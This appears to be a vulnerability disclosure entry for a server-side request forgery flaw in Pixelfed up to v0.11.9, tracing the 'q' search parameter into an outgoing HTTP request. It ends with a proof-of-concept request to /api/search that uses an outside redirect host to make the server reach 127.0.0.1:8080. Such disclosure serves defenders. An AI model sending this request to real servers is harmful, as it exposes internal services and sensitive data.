 ### Pixelfed

- **Application**: Pixelfed <= v0.11.9

- **Threat Impact**: Sensitive data leakage

- **Code**: Input is retrieved from GET parameter `q`. Then it is saved into `term` property and passed to `Helpers::fetchFromUrl` and then `ActivityPubFetchService::get`, and finally into sink function `Illuminate\Http\Client\PendingRequest::get`

  File: `app/Http/Controllers/SearchController.php`

  ```
  public function searchAPI(Request $request) {
  	...
  	$this->term = $request->input('q');
  	...
  	$this->getPosts();
  }
  
  protected function getPosts() {
  	$tag = $this->term;
  	$remote = Helpers::fetchFromUrl($tag);
  }
  ```

  File: `app/Util/ActivityPub/Helpers.php`

  ```
  public static function fetchFromUrl($url = false) {
  	$res = ActivityPubFetchService::get($url);
  }
  ```

  File: `app/Services/ActivityPubFetchService.php`

  ```
  public static function get($url, $validateUrl = true) {
  	$res = Http::withHeaders($headers)->timeout(30)->connectTimeout(5)->retry(3, 500)->get($url);
  }
  ```

- **POC**:

  1. Listen on 8080 on server side
  1. Send a get request to /api/search, with parameters`url=https%3A%2F%2Fssrf.localdomain1234.pw%2Fimg-without-body%2F301-http-127.0.0.1%3A8080-.i.jpg&q=abc&src=metro&v=2&scope=all`
  1. Receive a request on server side. 
